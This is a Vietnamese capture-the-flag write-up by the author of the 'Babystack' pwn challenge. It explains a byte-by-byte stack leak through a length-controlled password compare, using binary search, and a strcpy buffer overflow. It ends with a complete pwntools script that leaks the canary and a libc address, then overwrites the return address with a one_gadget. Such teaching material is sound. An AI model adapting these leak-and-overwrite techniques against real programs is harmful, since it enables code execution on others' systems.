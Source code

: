 # Babystack  

## Summary  
  Một bài leak stack từng byte thông qua lỗi ở hàm login, kết hợp với binary search (tìm kiếm nhị phân) để giảm thiểu số lượng lần phải đoán.  

## Description  
  
>Now we have password to protect our stack from being overflown. There is no way this can be exploited, right?  

![image](https://user-images.githubusercontent.com/101010673/175363377-424a5aff-4c46-43f5-bbfc-4eef817f2db1.png)  


## Reversing  
  Đầu tiên chương trình sẽ đọc 16 byte từ `/dev/urandom`, đây chính là **password** hay **stack canary**  
  ![image](https://user-images.githubusercontent.com/101010673/175365066-52d1ed0e-59c7-46ca-b956-cfec1083afad.png)   
  
  Sau đó sẽ có một vòng lặp while vô hạn, và để thoát ra ta cần nhập input là '2'  
  ![image](https://user-images.githubusercontent.com/101010673/175365823-26432300-d1ad-4cc1-9d0a-ac58a0b8fcc2.png)  
  Sau khi thoát khỏi vòng lặp, nếu như **logged_in = true** và **password** vẫn giữ nguyên như ban đầu ( tức là chưa bị tràn stack ) thì sẽ **return**  
  
  Hàm **login** sẽ chỉ đơn giản là nhập vào password và check password thông qua hàm **check_password**, đồng thời mỗi lần nhập sai số lượng **attempt** tăng thêm 1, nếu như **attempt** quá 0xe6 thì chương trình sẽ exit  
  Chú ý là **len** ở đây được tính thông qua `strlen(input_passw)`  
  ![image](https://user-images.githubusercontent.com/101010673/175366156-217c48cb-a699-458c-bcf6-6310c240948c.png)  
  Hàm **check_login** chỉ đơn giản là lấy từng char ở **passw** trừ cho char ở **input_passw** để tính **difference**, nếu `difference = 0` thì **return 1** tức là **Login succeed** nếu `< 0` thì là **too small** và `> 0` thì **too large**  
  Ta chỉ tính **difference** cho đến kí tự char thứ **len**, mà **len** lại do **input_passw** điều khiển  
  ![image](https://user-images.githubusercontent.com/101010673/175367841-5195b284-5172-4f62-8a30-ca88d187d4e1.png)  
  Cuối cùng hàm **copy** chỉ là copy **content**, dữ liệu ta nhập vào đến buffer nằm trên stack  
  ![image](https://user-images.githubusercontent.com/101010673/175368135-fa2fe834-c9e9-4ee4-8465-6a6718f65614.png)  
  
## Vulnerability  
  Chương trình có 2 lỗi đáng chú ý:  
  - Đầu tiên lỗi bắt đầu từ việc `check_password` với **len** từ input của chúng ta, vậy tức là chúng ta có thể `check_password` đúng 1 byte, rồi 2 byte,... rồi dựa trên kết quả trả về để đoán xem liệu byte đó có đúng không, rồi dùng byte đã đoán đó để tiếp túc đoán các byte còn lại, do output trả ra còn có cả **too large** và **too small** ta sẽ kết hợp cả binary search để tìm kiếm được giá trị của byte với ít lần đoán hơn  
  => Ta có khả năng để leak được giá trị nằm trên stack bắt đầu từ address **passw**, leak bao nhiêu byte cũng được :d  
  ![image](https://user-images.githubusercontent.com/101010673/175369265-a8600b60-368f-4aff-be8e-76d7503fab43.png)  
  - Lỗi thứ hai là một lỗi buffer overflow khá dễ nhìn thấy nằm ở **strcpy** trong hàm `copy`. Tại **strcpy** không có số lượng byte sẽ copy, nên sẽ copy cho đến khi gặp **null byte**, nếu như trong input ta không có **null byte** thì sẽ copy rất nhiều byte khác nằm trên stack  
  => Có thể tràn buffer, mà ta lại copy đến một buffer **nằm trên stack frame của hàm main**, điều này khiến ta có thể ghi đè được **return address của main** nếu ta leak được **password**  
  ![image](https://user-images.githubusercontent.com/101010673/175370300-bdc2f7ba-9685-4a13-87c3-0d4fe60ab86d.png)  
  
## Exploitation  
  Với lỗi như đã nói ở trên, ta hoàn toàn có thể leak được **password** qua từng byte một, về phần implementation có thể xem code (rất lộn xộn) của mình ở phía dưới.  
  Giờ mình sẽ chỉ tập trung vào lỗi 2, cách ta có thể exploit nó như thế nào:  
  - Đầu tiên chú ý là trong hàm **login** có stack frame `0x90 byte`  
  ![image](https://user-images.githubusercontent.com/101010673/175372503-83a16494-1cfd-459d-968a-a0cacc8662d7.png)   
  - Và tương tự trong hàm **copy** cũng có stack frame `0x90 byte`   
  ![image](https://user-images.githubusercontent.com/101010673/175372731-62ec668f-b91d-43f7-b5ae-a5241eed7b9a.png)   
  - Vậy là nếu như ta gọi hàm **login** rồi gọi hàm **copy** ngay sau đó, thì 2 hàm sẽ có **stack frame trùng nhau**, dẫn đến buffer **content** trong **copy**, và **input_passw** trong **login** cũng sẽ bị trùng, mà **input_passw** ta có thể nhập `128 byte` so với `63 byte` của **content**, dẫn đến lỗi **strcpy** kia có thể sẽ khiến **buffer overflow với input ta kiểm soát**    
  - Ta có thể lợi dụng điều này để ghi đè được **password**, điều này cho ta khả năng để leak được thứ khác ngoài **password** từ lỗi 1 kia. Ta sẽ leak libc address thông qua đây.  
  ![image](https://user-images.githubusercontent.com/101010673/175376706-794b39cd-1006-4a3f-8823-251d20226d58.png)   
  -  Có thể thấy do 2 stack frame trùng nhau, nên content sẽ bị copy không chỉ là **0x3f byte 0x41** nữa, mình đã ghi đủ **88 byte** ở buffer **input_passw**, để khi **strcpy** sẽ ghi đè `0x00007ffff7a7cfc4` tại một chỗ nào đó nằm sau **password**, rồi giống như cách ta đã leak **password** ta sẽ lại leak **libc address**   
  -  Trước copy:    
  ![image](https://user-images.githubusercontent.com/101010673/175377637-87a83b05-59cd-4462-b804-e02c8d36cec6.png)    
  -  Sau copy:    
  ![image](https://user-images.githubusercontent.com/101010673/175377883-3d522999-f5f7-404a-9cb0-74161eacffcc.png)   
  - Có thể thấy sau copy ở **password** đã bị ghi đè thành nhiều byte 0x41 và đồng thời có **libc address** ở cuối, giống như ta đã leak **password** giờ **ta leak libc với prefix là một dãy số lượng 'A'**  
  - Cuối cùng sau khi leak được hết, chỉ cần **buffer overflow** tương tự cách ta ghi đè **password** ta sẽ ghi đè **return address** thành **one_gadget**  
  ![image](https://user-images.githubusercontent.com/101010673/175378287-9034f49f-e140-4333-a156-fc74e3438b26.png)   
  - Mình dùng gadget nằm ở offset **0x45226**  

## Full exploit script:  
```python  
#!/usr/bin/env python3

from pwn import *


r = remote("127.0.0.1",2006)
passw = b""
leak = b""
pad1 = b"A"*23 + b"\x31"
leak_libc = b""

def check(x):
	r.sendafter("> ",b"1")
	r.sendafter(":",passw + (x).to_bytes(1,byteorder='little') + b"\x00")
	tmp = r.recvuntil(b"!")
	if b"Login" in tmp:
		return 1
	elif b"small" in tmp:
		return 2
	else:
		return 3

def check1(x):
	r.sendafter("> ",b"1")
	r.sendafter(":",pad1 + leak_libc + (x).to_bytes(1,byteorder='little') + b"\x00")
	tmp = r.recvuntil(b"!")
	if b"Login" in tmp:
		return 1
	elif b"small" in tmp:
		return 2
	else:
		return 3

#Get password:
for i in range(0,0x10):
	lo = 0x1
	hi = 0xff
	while(lo <= hi):
		
		mid = hi + lo
		mid = int(mid/2)
		
		res = check(mid)
		if res == 1:
			passw = passw + (mid).to_bytes(1,byteorder='little')
			r.sendafter("> ",b"1") 
			break
		elif res == 2:
			lo = mid + 1
		else:
		 	hi = mid - 1


r.sendafter("> ",b'1')
r.sendafter(":",b"\x00")
r.sendafter("> ",b'3')
r.sendafter(":",b"AAAAAAA")
r.sendafter("> ",b'1')
pad = b"\x00".ljust(88,b"A")
r.sendlineafter("> ",b'1')
r.sendafter(":",pad)
r.sendafter("> ",b'3')
r.sendafter(":",b"A"*0x3f) 
r.sendafter("> ",b'1')

#Leak addr:
for i in range(0,6):
	lo = 0x1
	hi = 0xff
	while(lo <= hi):
		
		mid = hi + lo
		mid = int(mid/2)
		
		res = check1(mid)
		if res == 1:
			leak_libc = leak_libc + (mid).to_bytes(1,byteorder='little')
			r.sendafter(b"> ",b'1') 
			break
		elif res == 2:
			lo = mid + 1
		else:
		 	hi = mid - 1

leak_libc = int.from_bytes(leak_libc,byteorder='little')
libc_base = leak_libc - 0x6ffc4
one_gadget = libc_base + 0x45226

log.info("PASSWORD: " + hex(int.from_bytes(passw,byteorder='little')))
log.info("Libc Base Address: " + hex(libc_base))
log.info("Leak Libc: " + hex(leak_libc))



pad = b"\x00AAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHH" + passw + b"IIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMM" + p64(one_gadget)
r.sendafter("> ",b'1')
r.sendafter(":",pad)
r.sendafter("> ",b'3')
r.sendafter(":",b"A"*0x3f)

r.sendafter("> ",b'2')

r.interactive()
```  
![image](https://user-images.githubusercontent.com/101010673/175378595-08e407d5-5d1b-43e0-8d33-a56a119a7df5.png)   

## Author's Note:   
  - Bài này mình viết PoC rất vội bởi vì challenge này là challenge thay đổi phút cuối, thế chỗ cho một challenge ROP khá basic khác. Tại vì mình muốn tăng chút độ khó cho contest. Và cũng vì vậy cái exploit script này quá lộn xộn...    
  - Mình lấy cảm hứng rất nhiều từ Babystack nằm trên pwnable.tw, nhưng mà mình vẫn nhớ lần đầu làm bài đó do mạng nhà mình chậm nên chạy exploit script mất hơn 20 phút 😶.   
  - Với cả mình là sinh viên khoa học máy tính, nên đã thêm cái twist tìm kiếm nhị phân này vào, giúp cho việc exploit chạy nhanh hơn :3   
  - Có một điều nữa là lúc mình viết challenge, có yếu tố nào đó khiến cho stack layout nó rất khó kiểm soát 😧. Dẫn đến thỉnh thoảng cái bước leak libc kia có lần offset nó bị sai và cuối cùng không leak được libc address. Mong các bạn thông cảm, mình thiếu kinh nghiệm :(    
  ![image](https://user-images.githubusercontent.com/101010673/175379882-39e5d361-6423-4125-a379-67d1bb8781df.png)   
  - Chúc những team nào vào final sẽ làm được những bài pwn (may mắn rằng không phải là mình ra) hay hơn, khó hơn :)  



  


  

  

  
  

  
  
  


  


